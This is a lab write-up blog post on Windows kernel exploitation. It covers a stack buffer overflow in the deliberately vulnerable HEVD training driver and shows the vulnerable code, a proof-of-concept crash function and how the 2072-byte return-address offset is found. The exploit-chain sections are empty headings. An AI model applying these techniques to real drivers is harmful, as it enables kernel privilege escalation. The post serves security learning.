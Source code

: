 ```yaml
---
title: Windows Kernel Exploitation Part 1 - Exploitation Stack Overflows
date: 2024-08-24 11:00:00 -0500
categories: [WKE, pwn]
tags: [windows, kernel, pwn, wke]
author: oreo
dsecription: Windows Kernel Exploitation Part 1 - Exploiting Stack Overflows
---
```


## Introduction
{: .mt-4 .mb-0 }

This series will highlight my experience with the HackSys Extremely Vulnerable Driver (HEVD) as I delve into learning Windows kernel exploitaiton :tada: I intentionally left out the initial steps in getting started - loading & running the driver and setting up kernel debugging - as I have already wrote an article on it [here](https://0reome1ster.github.io/posts/Windows-Kernel-Debugging). For this and future WKE posts, feel free to checkout my [WKE repo](https://github.com/0reome1ster/WKE) to see full source as opposed to code snippets! I am following a guide, <https://mdanilor.github.io/posts/hevd-0/>, to help orient myself during this first exploit so check it out!

## The Initial Crash
{: .mt-4 .mb-0 }

### Vulnerable Code
{: data-toc-skip='' .mt-4 .mb-0 }

```cpp
(...)
    ULONG KernelBuffer[BUFFER_SIZE] = { 0 };

(...)

    ProbeForRead(UserBuffer, sizeof(KernelBuffer), (ULONG)__alignof(UCHAR));

    DbgPrint("[+] UserBuffer: 0x%p\n", UserBuffer);
    DbgPrint("[+] UserBuffer Size: 0x%zX\n", Size);
    DbgPrint("[+] KernelBuffer: 0x%p\n", &KernelBuffer);
    DbgPrint("[+] KernelBuffer Size: 0x%zX\n", sizeof(KernelBuffer));

(...)

    DbgPrint("[+] Triggering Buffer Overflow in Stack\n");

    //
    // Vulnerability Note: This is a vanilla Stack based Overflow vulnerability
    // because the developer is passing the user supplied size directly to
    // RtlCopyMemory()/memcpy() without validating if the size is greater or
    // equal to the size of KernelBuffer
    //

    RtlCopyMemory((PVOID)KernelBuffer, UserBuffer, Size);

(...)
```

The above comment succintly summarizes the vulnerability within `TriggerBufferOverflowStack` - the user-controlled size variable is passed to `RtlCopyMemory` (a Windows API equivalent of memcpy) without any size checks. This allows an attacker to write an arbitrary amount of data to the destination buffer `KernelBuffer`, enabling a stack buffer overflow.

> This is a stack BoF because `KernelBuffer` is allocated on the stack; it could be a heap BoF if it was allocated via APIs such as ExAllocatePool and ExAllocatePoolWithTag
{:.prompt-info} 

### PoC Snippet
{: data-toc-skip='' .mt-4 .mb-0 }
```cpp
void StackOverflow(int pid)
{
	HANDLE driverHandle = GetHandle(DEVICE_NAME);
	int bufSize = 4096;
	DWORD bytesReturned = 0;

	LPVOID buf = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, bufSize);

	if (buf == NULL)
		return;

	memset(buf, 'A', bufSize);

	DeviceIoControl(driverHandle, HEVD_StackOverflow, buf, bufSize, NULL, 0, &bytesReturned, NULL);

	HeapFree(GetProcessHeap(), 0, buf);
}
```

### Triggering the BoF
{: data-toc-skip='' .mt-4 .mb-0 }

Running the exploit code, we can see we triggered a crash.

![Buffer Overflow BSoD](/assets/images/WKE/StackOverflow/StackOverflow1.png)

## Determining Offset
{: .mt-4 .mb-0 }

Since we know that it roughly takes 4096 (0x1000) bytes to trigger the BoF, we can use Metasploit Framework's `msf-pattern_create` tool to generate a unqiue paylod to quickly ascertain the offset.

![msf-pattern_create](/assets/images/WKE/StackOverflow/pattern_create.png)

```cpp
const char* pattern = "<truncated for brevity>";

void StackOverflow(int pid)
{
	HANDLE driverHandle = GetHandle(DEVICE_NAME);
	int bufSize = 4096;
	DWORD bytesReturned = 0;

	LPVOID buf = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, bufSize);

	if (buf == NULL)
		return;

	// memset(buf, 'A', bufSize);
	memcpy(buf, pattern, bufSize);

	DeviceIoControl(driverHandle, HEVD_StackOverflow, buf, bufSize, NULL, 0, &bytesReturned, NULL);

	HeapFree(GetProcessHeap(), 0, buf);
}
```

> I do recognize that I could've directly passed `pattern` through the ioctl call; however, I didn't feel like changing variable names back-and-forth.
{: .prompt-info}

I recompiled my exploit binary and re-ran it on the VM to obtain the payload offset to overwrite RIP with.

![Stack BoF for offset](/assets/images/WKE/StackOverflow/StackOverflow2.png)

We can ignore the first column, `Child-SP`, and solely focus on `RetAddr`. We can see that the address it's trying to return to looks like a sequence of ASCII - 0x43, 0x32, 0x27, etc. We can extract this and paste it into another Metasploit Framework tool called `msf-pattern_offset` (very convenient naming).

![msf-pattern_offset](/assets/images/WKE/StackOverflow/pattern_offset.png)

> I added the help page because I forgot the flags and I thought it'd be good to show
{: .prompt-info}

Now that we know the offset, 2072 bytes, we can ROP our way into an Elevation of Privilege (EoP)...

## Writing Exploit Chain
{: .mt-4 .mb-0 }

### Bypassing kASLR - Leaking Kernel Base
{: .mt-4 .mb-0 }

### ROP-ing to Shellcode
{: .mt-4 .mb-0 }

### Writing Shellcode
{: .mt-4 .mb-0 }

## :balloon: Party Time :balloon:
{: .mt-4 .mb-0 }
